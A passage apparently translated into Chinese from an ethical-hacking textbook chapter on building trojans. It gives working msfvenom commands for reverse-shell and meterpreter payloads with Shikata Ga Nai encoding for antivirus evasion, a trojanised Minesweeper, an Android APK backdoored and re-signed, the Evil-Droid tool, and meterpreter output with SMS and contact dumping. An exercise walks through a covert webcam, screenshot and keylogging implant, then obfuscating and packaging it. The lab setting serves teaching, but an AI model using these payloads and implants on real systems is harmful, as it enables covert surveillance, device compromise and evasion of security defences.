如果你的模块存在，使用 `msfvenom` 和你的模块对植入物进行编码。运行以下命令来创建你的编码植入物并将其保存为 *implantEncoded*：

```
kali@kali:~/Desktop/Malware/$ implant.sh | msfvenom --payload --arch x86 --

			 platform --encoder bash/bash_base64 -o implantEncoded
```

通过使编码后的植入物可执行并运行它来测试：

```
kali@kali:~/Desktop/Malware/$ chmod +x implantEncoded
kali@kali:~/Desktop/Malware/$ ./implantEncoded
```

很好，你已经编写了一个简单的 base64 编码器。然而，它存在一些限制。除了总是产生相同的签名外，它还无法编码已编译的二进制文件。作为一名道德黑客，你经常会将你创建的工具的二进制版本加载到目标机器上。如果你想避免被检测到，编码这些二进制文件本身是一个好主意。Shikata Ga Nai 编码器允许你对二进制文件进行编码。

#### *Shikata Ga Nai 编码器*

*Shikata Ga Nai (SGN) 编码器*通过将有效载荷中的字节与一个随机选择的数字（称为*初始化向量*）进行异或操作来对有效载荷进行编码。这一策略类似于第五章讨论的一次性密码本加密算法。然而，SGN 编码器将初始化向量和解码器代码作为有效载荷的一部分，因此它在有效载荷运行时加载初始化向量，然后启动解码器。解码器循环遍历与编码部分有效载荷相关的内存地址，并通过在每次迭代中将其与初始化向量异或来解码指令。然后，解码器在内存中用解码后的指令替换编码指令。

一旦所有指令都被解码并替换，解码循环结束，CPU 执行解码后的区域。由于解码器通常是部分编码的，因此仅凭解码器的签名，病毒扫描程序的签名检测算法很难识别有效载荷。

SGN 编码器可以通过为每条指令计算一个新的初始化向量，使逆向工程过程变得更加困难。例如，它可以将新解码的字节添加到先前的初始化向量中，如图 10-9 所示。



*图 10-9：使用 SGN 编码器编码字节的过程*

SGN 编码器通过使用额外的算术运算（加法和减法）来计算初始化向量，从而进一步复杂化了逆向工程过程。

SGN 编码器通常被称为*多态编码器*。多态编码器每次运行时都会生成一个新的签名，只要黑客选择一个新的初始化向量，并运行编码器多个迭代。以下命令生成一个 SGN 编码的有效载荷；记得将 `<Kali-IP>` 替换为你 Kali Linux 机器的 IP 地址：

```
kali@kali:~/Desktop/Malware/$ sudo msfvenom -a x86 --platform linux -p linux/x86/meterpreter/

			 reverse_tcp LHOST=<Kali IP address> LPORT=443 ➊ --encoder x86/shikata_ga_nai -i 4 -f

			 elf -o malicious

[sudo] password for kali:
Found 1 compatible encoders
Attempting to encode payload with 4 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 150 (iteration=0)
x86/shikata_ga_nai succeeded with size 177 (iteration=1)
x86/shikata_ga_nai succeeded with size 204 (iteration=2)
x86/shikata_ga_nai succeeded with size 231 (iteration=3)
x86/shikata_ga_nai chosen with final size 231 Payload size: 231 bytes
Final size of elf file: 315 bytes
Saved as: malicious
```

我们已经使用 `--encoder` 选项指定了 SGN 编码器 ➊。

### 创建一个 Windows 木马

到目前为止，我们讨论了如何为 Linux 创建一个木马。创建 Windows 木马的过程类似，你也可以使用 `msfvenom` 来实现。我们将介绍两种隐藏植入的方法：通过 Humaeed Ahmed 的 Minesweeper 游戏的一个有趣的开源实现，以及通过使用社会工程工具包（稍后将详细讲解）。

#### *在扫雷游戏中隐藏木马*

我已经分叉了 Ahmed 的库，你可以通过以下链接下载可执行文件：[`github.com/The-Ethical-Hacking-Book/Minesweeper/blob/master/Minesweeper/bin/Debug/Minesweeper.exe`](https://github.com/The-Ethical-Hacking-Book/Minesweeper/blob/master/Minesweeper/bin/Debug/Minesweeper.exe)*。将其保存到你 Kali 桌面上的*恶意软件*文件夹中。

**注意**

*你信任这个可执行文件吗？现在你开始像黑客一样思考了。这个库还包含了需要自己构建的源代码，如果你不信任我，可以自己构建。*

在下载了可执行文件后，使用 `msfvenom` 通过运行以下命令将其转换为恶意 Trojan：

```
kali@kali:~/Desktop/Malware/$ msfvenom -a x86 --platform windows -x program.

			 exe -k -p windows/shell/bind_tcp -e x86/shikata_ga_nai lhost=<Kali IP

			 address>-f exe -o evilProgram.exe
```

在这里，`-e` 标志指定我们将使用之前讨论过的 SGN 编码器。许多选项与我们第一次运行 `msfvenom` 时相同，唯一的例外是 `-k` 标志，它告诉 `msfvenom` 保持程序的常规执行，并在一个单独的线程中运行有效载荷。你不需要记住这些选项；你可以通过运行 `msfvenom` 并加上 `**--help**` 选项来查看它们的文档：

```
kali@kali:~/Desktop/Malware/$ msfvenom --help
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f

			 exe -o payload.exe

Options:

    -l, --list <type> List all modules for [type]. Types are: payloads,

			 encoders, nops, platforms, archs, encrypt, formats, all

    -p, --payload <payload> Payload to use (--list payloads to list, --list-

			 options for arguments). Specify '-'or STDIN for custom

        --list-options List --payload <value>'s standard, advanced and evasion

			 options

    -f, --format <format> Output format (use --list formats to list)

...
```

#### *将 Trojan 隐藏在 Word 文档（或其他无害文件）中*

有一个问题：Windows 用户很少安装新程序，他们对通过电子邮件要求安装的程序极度怀疑。然而，用户几乎每天都会打开 Word 文档、PowerPoint 演示文稿和 PDF 文件。你也可以将植入物嵌入这些文件中。*社会工程工具包（SET）* 抽象化了 Metasploit Framework 的细节，并使发送和生成这种感染媒体变得更加容易。运行以下命令启动 SET：

```
kali@kali:~$ sudo setoolkit
```

启动工具包后，你应该会看到以下菜单。通过在终端中输入 `**1**` 来选择 **社会工程攻击** 选项：

```
   1) Social-Engineering Attacks

   2) Penetration Testing (Fast-Track)

   3) Third Party Modules
```

接下来，选择 **感染媒体生成器** 选项：

```
   1) Spear-Phishing Attack Vectors

   2) Website Attack Vectors

   3) Infectious Media Generator

   4) Create a Payload and Listener
```

然后，选择 **文件格式漏洞** 选项。这将允许你在不同类型的文件中嵌入植入物：

```
   1) File-Format Exploits

   2) Standard Metasploit Executable
```

输入攻击者服务器的 IP 地址；在这个例子中，是你的 Kali Linux 机器。一旦完成，你应该能看到可用感染媒体攻击的列表。随着公司修补漏洞和攻击者发现新漏洞，这个文件格式列表会发生变化。许多攻击只在特定的软件版本上有效，因此请使用你在 OSINT 操作中收集的信息，仔细选择目标所使用的攻击方法：

```
   1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)

   2) SET Custom Written Document UNC LM SMB Capture Attack

   3) MS15-100 Microsoft Windows Media Center MCL Vulnerability

   4) MS14-017 Microsoft Word RTF Object Confusion (2014-04-01)

...

  13) Adobe PDF Embedded EXE Social Engineering

  14) Adobe util.printf() Buffer Overflow

...

  17) Adobe PDF Embedded EXE Social Engineering (NOJS)

  18) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow

  19) Apple QuickTime PICT PnSize Buffer Overflow
```

微软 Office 文档，如 Word、Excel 和 PowerPoint 文件，支持 *宏*，这是用户可以编写的小程序，用于自动化 Office 文档中的任务。宏会在你打开文档时运行；然而，由于宏存在安全风险，微软 Office 默认禁用宏。每当文档包含宏时，微软 Office 会显示一个横幅，允许用户启用宏。攻击者可以将恶意宏嵌入文档中，当用户打开文档时，宏会下载并执行一个 shell。在 2021 年，一名国家支持的攻击者利用一个恶意的 Word 文档入侵了一个俄罗斯国防承包商。你可以在卡巴斯基网站上阅读 Lazarus 组织对该攻击的详细介绍。

现在我们已经研究了为桌面和服务器创建 Trojan 的技术，接下来让我们为移动和嵌入式设备创建 Trojan。

### 创建 Android Trojan

为 Android 设备创建 Trojan 的过程几乎与为 Linux 设备创建 Trojan 的过程相同。目录结构可能有所不同，但正如你在本章中之前所做的，你将修改一个安装包来安装你的植入物。

Android 安装包称为*Android 包（APK）*文件。该文件包含 Android 操作系统安装新应用所需的所有内容。首先，我们将使用`msfvenom`生成一个恶意 APK。创建一个名为*AndroidTrojan*的新桌面文件夹，并导航到该文件夹：

```
kali@kali:~$ cd ~/Desktop/AndroidTrojan
```

接下来，生成一个包含反向 shell 植入的恶意 APK：

```
kali@kali:~/Desktop/AndroidTrojan$ msfvenom -p android/meterpreter/reverse_tcp

			 LHOST= <Kali IP address> LPORT=443 > malicious.apk
```

该命令生成一个新的 Android APK，并将恶意代码嵌入其中。在接下来的章节中，我们将反汇编这个应用并讨论它的结构，以便你能够创建自己的 Android 木马。

#### *反构 APK 以查看植入代码*

上面的命令为你完成了所有工作。为了理解它是如何隐藏植入代码的，让我们反编译*malicious.apk*安装文件并探索它的目录结构。我们将使用`apktool`这个逆向工程工具来反编译 APK。运行以下命令来下载并安装`apktool`：

```
kali@kali:~/Desktop/AndroidTrojan$ sudo apt-get install apktool
```

要反编译（`d`）该文件，运行以下命令：

```
kali@kali:~/Desktop/AndroidTrojan$ apktool d malicious.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.4.1-dirty on malicious2.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...

...
```

该工具将创建一个名为*malicious*的文件夹，其中包含反编译后的文件。导航到该文件夹，并使用以下命令列出目录中的所有文件和文件夹：

```
kali@kali:~/Desktop/AndroidTrojan$ cd malicious
kali@kali:~/Desktop/AndroidTrojan/malicious$ ls
```

你应该看到以下文件和文件夹：*AndroidManifest.xml*、*apktool.yml*、*original*、*res* 和 *smali*。*AndroidManifest.xml*文件描述了你的应用。下面是其中的一个片段：

```
kali@kali:~/Desktop/AndroidTrojan/malicious$ cat AndroidManifest.xml

<manifest/>

...
➊ <uses-permission android:name="android.permission.READ_CALL_LOG"/>

    <uses-permission android:name="android.permission.WRITE_CALL_LOG"/>

    <uses-permission android:name="android.permission.WAKE_LOCK"/>

...

    <uses-feature android:name="android.hardware.microphone"/>

    <application android:label="@string/app_name">

    ➋ <<activity android:label="@string/app_name" android:name=".MainActivity

			 "android:theme="@android:style/Theme.NoDisplay">

         <intent-filter>

            action android:name="android.intent.action.MAIN"/>

             <category android:name="android.intent.category.LAUNCHER"/>

         </intent-filter>

...

</manifest>
```

该文件包含你的应用权限，如访问摄像头或访问通话记录➊。它还包含有关应用入口点➋的信息，这是应用启动时运行的第一个文件。

*apktool.yml*文件包含有关 APK 的信息，包括其版本号和压缩类型。*original*文件夹包含已编译的*AndroidManifest.xml*文件、包含哈希值的文件以及包含签名信息的文件。（这些签名与我们在第六章中讨论的类似。我将在下一个子节中更详细地讨论这些内容。）*res*文件夹包含应用程序的资源，例如图像或字符串。

最后，*smali*文件夹包含与应用相关的汇编文件。这也是我们放置植入代码的地方。你可以通过在*smali/com/metasploit/stage/*目录中运行`ls`来查看与 Metasploit 植入相关的汇编文件：

```
kali@kali:~/Desktop/AndroidTrojan/malicious$ ls smali/com/metasploit/stage/

    a.smali  c.smali  e.smali  g.smali  MainBroadcastReceiver.smali

    Payload.smali b.smali  d.smali  f.smali

    MainActivity.smali  MainService.smali
```

如果你曾花时间处理移动应用，你可能会期待看到一个*.dex*文件。这些文件包含 Android Runtime（ART）执行的字节码。没有该文件的原因是*smali*是应用代码的汇编表示，而*.dex*是机器表示。*Payload.smali*文件包含与我们恶意植入相关的代码，我们稍后会将该文件转移到另一个 APK 中以创建木马。

现在，让我们检查一下*MainActivity.smali*文件：

```
.class public Lcom/metasploit/stage/MainActivity;

.super Landroid/app/Activity;

...

# virtual methods

.method protected onCreate(Landroid/os/Bundle;)V

    .locals 0

    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle

			 ;)V

 ➊ invoke-static {p0}, Lcom/metasploit/stage/MainService;->startService(

			 Landroid/content/Context;)V

 ➋ 

    invoke-virtual {p0}, Lcom/metasploit/stage/MainActivity;->finish()V

    return-void

.end method
```

恶意 APK 启动`MainService` ➊，这是一个由 Metasploit Framework 的开发者编写的恶意 Android 服务。该服务最终会在后台加载有效载荷。如果你希望立即启动恶意有效载荷活动，可以在前面的示例中在➋位置添加以下代码片段：

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->onCreate(Landroid/content

			 /Context;)V
```

同样，你可以通过反编译现有的 APK，复制*Metasploit*文件夹到*smali*文件夹，然后将前面的代码片段添加到*MainActivity.smali*中以启动有效载荷，从而创建自己的特洛伊木马。

#### *重新构建并签署 APK*

现在我们已经检查了文件，可以通过运行以下命令重新构建它：

```
kali@kali:~/Desktop/AndroidTrojan/$ apktool build ~/Desktop/AndroidTrojan/

			 malicious -o malicious2.apk
```

所有 Android 应用程序必须在运行在 Android 设备上之前进行签名。你可以使用*Java Keystore*来完成这项工作，它存储并保护用于签名的公钥和私钥等密钥材料。密钥材料永远不会离开 Keystore。相反，应用程序将数据发送到 Keystore，Keystore 使用受保护的密钥材料进行签名或加密数据，并返回结果，如图 10-10 所示。一些系统甚至将密钥材料存储在一个称为受信执行环境的单独安全硬件中。



*图 10-10：密钥材料永远不会离开 Keystore。*

运行以下命令安装 Java 开发工具包（JDK），该工具包包含我们将用于签署特洛伊木马 APK 的工具：

```
kali@kali:~/Desktop/AndroidTrojan/$ sudo apt install -y default-jdk
```

使用以下命令生成我们将用于签署特洛伊木马的 RSA 密钥：

```
kali@kali:~/Desktop/AndroidTrojan/$ keytool -genkey -keystore my-malicious.

			 keystore -alias alias_name_malicious -keyalg RSA -keysize 3072 -

			 validity 10000
```

我们使用 Java 的`keytool`工具生成一个新的密钥（`-genkey`）。我们将密钥对存储在名为`my-malicious.keystore`的 Keystore 文件中，而不是显示密钥对。Keystore 可以存储多个条目，每个条目都由别名（`-alias`）标识。我们的条目被称为`alias_name_malicious`。下一个选项指定加密密钥算法（`-keyalg`）。在这里，我们选择`RSA`并将密钥大小（`-keysize`）设置为`3072`。我们还将密钥的有效期（`-validity`）设置为 10,000 天。

现在使用 Java 的`jarsigner`工具签署 APK 文件：

```
kali@kali:~/Desktop/AndroidTrojan/$ jarsigner -sigalg SHA2withRSA -digestalg

			 SHA2 -keystore my-malicious.keystore malicious2.apk

			 alias_name_malicious
```

首先，我们选择签名算法，使用 SHA2 和 RSA（`-sigalg SHA2withRSA`）。然后，我们使用 SHA2 作为哈希/摘要函数（`-digestalg SHA2`）。最后，我们指定 Keystore（`-keystore`）和密钥别名。在这种情况下，我们将使用刚刚创建的 Keystore（`my-malicious.keystore`）和带有别名（`alias_name_malicious`）的条目。

#### *测试 Android 特洛伊木马*

现在让我们看看我们的恶意 APK 是如何运作的。我们不希望恶意程序出现在我们的手机上，因此让我们创建一个新的虚拟机来模拟 Android 手机。Google 开发了一个模拟器，它与 Android Studio 捆绑在一起，后者是其 Android 开发环境。按照* [`developer.android.com/studio/install/`](https://developer.android.com/studio/install/)*上的说明，在主机系统中下载 Android Studio，外部于当前的虚拟实验室环境。

安装完 Android Studio 后，通过点击**开始新的 Android Studio 项目**并按照指示操作来创建一个空项目。作为经验法则，选择默认选项。创建项目后，通过选择**工具** ▶ **AVD 管理器**或点击 Android 虚拟设备管理器图标➊来创建一个新的 Android 虚拟设备，如图 10-11 所示。



*图 10-11：Android 虚拟设备管理器*

创建一个新的虚拟设备➋，其规格与您目标设备相匹配。然后点击播放按钮➌以启动它。启动虚拟机需要一些时间。当虚拟机启动后，您应该看到一个仿真设备。

由于仿真器在虚拟实验环境外运行，您的 Kali Linux 虚拟机无法与 Android 仿真器进行交互。将 VirtualBox 中的 Kali 连接设置更改为**桥接适配器**，使其与 Android 仿真器连接到同一局域网(图 10-12)。有关更改 Kali Linux 网络配置的说明，请参见第一章，并在完成本练习后记得恢复之前的设置。



*图 10-12：将 Kali Linux 虚拟机设置为桥接适配器*

运行`**ifconfig**`命令以获取 Kali Linux 机器的新 IP 地址：

```
kali@kali:~/Desktop/AndroidTrojan/$ sudo ifconfig
```

接下来，在包含已签名恶意 APK 的文件夹中启动 Web 服务器：

```
kali@kali:~/Desktop/AndroidTrojan/$ sudo python3 -m http.server 80
```

这是我们将用来提供恶意 APK 文件的 Web 服务器。现在，在一个新的终端中启动攻击者服务器：

```
kali@kali:~/$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD

			 android/meterpreter/reverse_tcp; set LHOST <Kali IP address>; set

			 LPORT 8443; run; exit -y"
```

打开您的仿真设备，导航到运行在 Kali Linux 机器上的 Web 服务器，并下载木马，如图 10-13 所示。



*图 10-13：在 Android 上下载木马*

忽略指令中的警告，并允许安装第三方应用。

此时，您应该已经成功安装并连接到您的植入设备。您应该会看到以下的 Meterpreter Shell。尝试输入`geolocate`命令来获取手机位置。（记住，手机运行在虚拟机中并且无法访问 GPS，因此这个位置将被模拟。）还可以运行`help`命令查看所有可用选项。Meterpreter 并不完美，因此有些选项可能无法正常工作：

```
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => android/meterpreter/reverse_tcp
LHOST => 10.0.1.16
LPORT => 8443

[*] Started reverse TCP handler on 10.0.1.16:8443

[*] Sending stage (76756 bytes) to 10.0.1.9

[*] Meterpreter session 1 opened (10.0.1.16:8443 -> 10.0.1.9:64916) at 2021-01-14 22:19:22

    -0500

meterpreter > geolocate

[*] Current Location:

        Latitude:  37.421908

        Longitude: -122.0839815

To get the address: https://maps.googleapis.com/maps/api/geocode/json?latlng=37.421908,

                    -122.0839815&sensor=true

meterpreter > help

...
Android Commands

================

    Command           Description

    -------           -----------

    activity_start    Start an Android activity from a Uri string

    check_root        Check if device is rooted

    dump_calllog      Get call log

    dump_contacts     Get contacts list

    dump_sms          Get sms messages

    geolocate         Get current lat-long using geolocation

    hide_app_icon     Hide the app icon from the launcher

    interval_collect  Manage interval collection capabilities

    send_sms          Sends SMS from target session

    set_audio_mode    Set Ringer Mode

    sqlite_query      Query a SQLite database from storage

    wakelock          Enable/Disable Wakelock

    wlan_geolocate    Get current lat-long using WLAN information

...
```

攻击者可能会通过发送钓鱼电子邮件或短信，诱使用户下载恶意 APK，链接到一个克隆版的 Google Play 商店网站（有关网页克隆的信息，请参见第七章）。或者，黑客也可能使用二维码。你会在各处看到二维码；例如，在会议和公园里。黑客可以轻松制作二维码，链接到一个包含恶意木马的假网站。图 10-14 展示了一个二维码示例，指向 No Starch Press 网站。你可以通过打开手机的相机应用并对准二维码来扫描它。


*图 10-14：此二维码将带你到* [`nostarch.com/catalog/security`](https://nostarch.com/catalog/security)*。*

一些最好的移动攻击利用了*零点击漏洞*。零点击漏洞允许攻击者在用户不做任何操作的情况下攻破移动设备。这些漏洞非常罕见且极具价值。

关于移动设备的最后说明：虽然 iOS 设备通常被认为更安全，但它们也并不完全安全。例如，Facebook 的 WhatsApp 平台中的一个漏洞允许黑客通过发送链接给 WhatsApp 用户，从而在 iPhone 上安装恶意软件。后来，一个国家级黑客组织利用这个漏洞攻击了亚马逊 CEO 杰夫·贝佐斯的 iPhone。

### 练习

这些练习将增强你对木马的理解。你将首先探索一个自动化创建和签名 Android 木马的工具。在第二个练习中，你将用 Python 编写一个植入物。你的植入物应该从受害者的网络摄像头实时播放视频，并将其传输回攻击者的服务器。

#### *Evil-Droid*

*Evil-droid*是一个 Bash 脚本，用于自动化 APK 植入和签名过程。你可以通过运行以下命令从 GitHub 下载它：

```
kali@kali:~$ git clone https://github.com/M4sc3r4n0/Evil-Droid
```

接下来，你需要下载你想要转换为木马的应用的 APK 文件。在这个例子中，我们将使用 Signal 应用的 APK 文件，这是一种加密消息服务，你可以在*[`signal.org/android/apk/`](https://signal.org/android/apk/)*找到它。要选择来自 Google Play 商店的其他 APK，请使用`gplaycli`，这是一款免费的开源工具，允许你从商店下载 APK 文件。你可以从*[`github.com/matlink/gplaycli`](https://github.com/matlink/gplaycli)*安装它。

下载 APK 文件后，导航到*Evil-Droid*文件夹中的 Bash 脚本，并更改脚本的权限，使其可执行：

```
kali@kali:~$ cd Evil-Droid
kali@kali:~/Evil-Droid/$ chmod +x evil-droid
```

通过运行以下命令来启动 Evil-Droid 脚本：

```
kali@kali:~/Evil-Droid/$ ./evil-droid
```

一旦 Evil-Droid 脚本启动，你应该会看到以下内容：

```
------------------------------------------------

|          Evil-Droid Framework v0.3           |

|      Hack & Remote android platform          |

------------------------------------------------

[1] APK MSF

[2] BACKDOOR APK ORIGINAL (OLD)

[3] BACKDOOR APK ORIGINAL (NEW)

[4] BYPASS AV APK (ICON CHANGE)

[5] START LISTENER

[c] CLEAN

[q] QUIT

[?] Select>:
```

选择**[3]**将植入物注入到原始的 APK 中。从输出中可以看到，Evil-Droid 提供了两种注入植入物的选项：旧选项和新选项。新选项提供了额外的功能，比如签名 APK，这对于在现代 Android 平台上运行的应用程序是必需的。

Evil-Droid 是通过使用一个开源的 Bash 脚本实现的。以下是该脚本的链接：

```
https://github.com/M4sc3r4n0/Evil-Droid/blob/master/evil-droid
```

一旦你选择了**[3]**，按照指示和提示创建你的木马，并提供你想要修改的原始 APK。

#### *编写你自己的 Python 植入物*

在本章中，我们使用了 Metasploit 提供的植入物。作为练习，编写你自己的植入物，使用受害者的摄像头拍照。

使用 Python 的*OpenCV*库捕获并显示来自网络摄像头的图像。你可以通过`pip3`安装这个库。

```
kali@kali:~/$ pip3 install opencv-python
```

将以下内容复制到一个名为*implant.py*的新文件中。

```
   import cv2

➊ vc = cv2.VideoCapture(0)

   cv2.namedWindow("WebCam", cv2.WINDOW_NORMAL)

   #----------------------------------------

   # Setup the TLS Socket

   #----------------------------------------

   while vc.isOpened():

     ➋ status, frame = vc.read()

        cv2.imshow("WebCam", frame)

        print(frame)

        #-------------------------------

        #  Send Frame over an encrypted

        #  TCP connection one frame at

        #  a time

        #-------------------------------

        key = cv2.waitKey(20) #Wait 20 milliseconds before reading the next frame

        if key == 27: #Close if ESC key is pressed.

            break

vc.release()
cv2.destroyWindow("WebCam")
```

脚本将拍摄几张图片（帧）并将它们拼接成一个视频。首先，我们将选择一个视频捕获设备➊。一个机器可能连接多个摄像头，操作系统将每个摄像头分配到一个接口。在这里，我们选择分配给接口 0 的摄像头，即第一个接口。接下来，我们设置显示窗口，该窗口将显示每一帧。显示每一帧非常适合调试，但在隐蔽木马中不应显示这个窗口。只要窗口打开，我们就会捕获/读取新的帧➋。变量`status`是一个布尔变量，用于指示帧是否正确捕获。然后，我们将每一帧传递到窗口显示并打印到控制台。最后，如果用户按下 ESC 键，我们将关闭窗口并停止进程。

通过打开一个新的终端并导航到包含*implant.py*文件的文件夹来测试程序。在 Kali Linux 的顶部菜单中，选择**设备** ▶ **网络摄像头**，将你的网络摄像头连接到虚拟机。现在运行你的植入物：

```
kali@kali:~$ python3 implant.py
```

通过允许植入物通过 TCP 连接向黑客的服务器发送帧，来扩展植入物的功能。在你扩展并测试后，你可以通过删除显示给受害者的画面来让植入物更加隐蔽。并且记住，你希望你的植入物能够安全地通信。请参见第六章了解如何建立安全通信通道的示例。

进一步扩展你的植入物，使其能够截取屏幕截图。安装并使用*python-mss*库来实现这一功能。这里，我提供了一个示例代码，导入了`mss`库并拍摄了一个屏幕截图：

```
from mss import mss
with mss() as sct:

    image = sct.shot()
```

你还需要创建并实现一个基本协议，用于控制你的植入物。请参见第四章了解如何操作的示例。最后，*pynput*库非常适合添加键盘记录功能。在使用之前，你需要先安装它。

#### *混淆你的植入物*

现在你已经开发了一个 implant，让我们对其进行加密。记住，加密可以使检测和逆向工程变得更加困难。我们将使用`pyarmor`工具来加密*implant.py*文件。有关`pyarmor`加密过程的详细信息，可以在其文档中找到，网址是*[`pyarmor.readthedocs.io/en/latest/how-to-do.html`](https://pyarmor.readthedocs.io/en/latest/how-to-do.html)*。

使用`pip3`安装`pyarmor`：

```
kali@kali:~$ pip3 install pyarmor
```

现在通过运行以下命令来加密你的 implant：

```
kali@kali:~$ pyarmor obfuscate implant.py
```

你可以通过导航到*dist*文件夹来查看加密后的脚本：

```
kali@kali:~$ cd dist
```

你还需要*dist*文件夹中的所有文件，包括*pytransform*文件夹中的文件。通过运行*dist*文件夹中的*implant.py*文件来运行你新加密的文件。

**注意**

*或者，你可以使用*`*pyminifier*`*来生成代码的压缩版本。*

#### *构建平台特定的可执行文件*

要运行你刚刚编写的 implant，计算机必须安装 Python。然而，黑客不能假设受害者的计算机上会有 Python。相反，我们需要使用`pyinstaller`工具将 Python 程序转换为可执行文件，你可以按以下方式安装：

```
kali@kali:~$ pip3 install pyinstaller
```

要从原始未加密的文件创建 Linux 可执行文件，请运行以下命令：

```
kali@kali:~$ pyinstaller --onefile implant.py
```

要创建一个加密的可执行文件，请对原始文件运行以下命令：

```
kali@kali:~$ pyarmor pack implant.py
```

你可以使用本章之前讨论的相同技术将生成的 Linux 可执行文件嵌入到木马中。现在尝试在 Windows 机器上运行`pyinstaller`生成一个 Windows 可执行文件（*.exe*）。命令是一样的，在 Windows 设备上运行它们将生成一个 Windows 可执行文件。
